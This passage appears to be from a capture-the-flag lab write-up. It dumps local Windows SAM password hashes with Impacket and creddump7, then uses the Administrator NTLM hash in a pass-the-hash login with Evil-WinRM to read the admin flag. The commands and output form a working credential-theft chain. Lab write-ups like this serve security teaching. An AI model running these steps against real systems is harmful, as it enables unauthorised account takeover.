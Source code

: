 ```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Retrieving class info for JD
[+] Unknown type 0xb'c\x00'
[+] Retrieving class info for Skew1
[+] Unknown type 0xb'4\x00'
[+] Retrieving class info for GBG
[+] Unknown type 0xb'd\x00'
[+] Retrieving class info for Data
[+] Unknown type 0xb'6\x00'
[*] Target system bootKey: 0xd676472afd9cc13ac271e26890b87a8c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[+] Calculating HashedBootKey from SAM
[+] NewStyle hashes is: True
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
[+] NewStyle hashes is: True
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
[+] NewStyle hashes is: True
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
[*] Cleaning up... 
                                                                                                                    
```

Also give this permissions if we are still having problems to dump the hashes:

```shell
sudo chmod 644 sam.bak system.bak
```

An alternative method would be using creddump7:

```shell
pip install creddump7 
python creddump7/pwdump.py sam.bak system.bak
```

### Pass-the-Hash using Evil-WinRM to get access as Administrator

Now we can use Evil-WinRM to pass the hash of the Administrator we got after dumping the SAM and SYSTEM files:

```shell
evil-winrm -i 10.10.115.133 -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a
```

### Root Flag
Now we can get the admin.txt flag:

```shell
type C:\Users\Administrator\Desktop\admin.txt
```


